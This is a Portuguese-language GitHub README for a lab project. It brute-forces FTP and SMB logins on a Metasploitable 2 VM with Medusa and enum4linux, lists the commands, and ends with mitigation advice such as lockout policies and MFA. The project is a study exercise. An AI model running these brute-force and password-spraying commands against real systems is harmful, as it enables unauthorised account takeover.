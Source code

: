 # 🔐 Projeto: Testes de Força Bruta com Medusa no Kali Linux

## 📌 Descrição
Este projeto demonstra a execução de ataques de **força bruta** utilizando a ferramenta **Medusa** em um ambiente controlado com **Kali Linux** e **Metasploitable 2**. O objetivo é compreender como esses ataques funcionam, documentar os processos e propor medidas de mitigação para fortalecer a segurança.

---

## 🛠️ Ambiente Utilizado
- **VirtualBox** com duas VMs:
  - **Kali Linux** (atacante)
  - **Metasploitable 2** (alvo)
- Rede: **Host-Only**
- Ferramentas:
  - Medusa
  - Enum4linux
  - DVWA (para testes web)

---

## ✅ Cenários Testados
1. **Ataque de Força Bruta em FTP**
   ```bash
   medusa -h 192.168.56.101 -u msfadmin -P /usr/share/wordlists/rockyou.txt -M ftp

2. **Automação em Formulário Web (DVWA)**

   Teste de login com Medusa ou Hydra.

4. **Password Spraying em SMB com Enumeração**
  ```bash
   enum4linux -a 192.168.56.101
   medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M smbnt
  ```
---

## 🔍 Resultados

Foram obtidas credenciais válidas em serviços vulneráveis.
Prints das execuções estão disponíveis na pasta /images.

---

## 🛡️ Recomendações de Mitigação

Implementar políticas de senha forte.
Configurar bloqueio após tentativas falhas.
Utilizar autenticação multifator (MFA).
Monitorar logs e alertas de tentativas suspeitas.
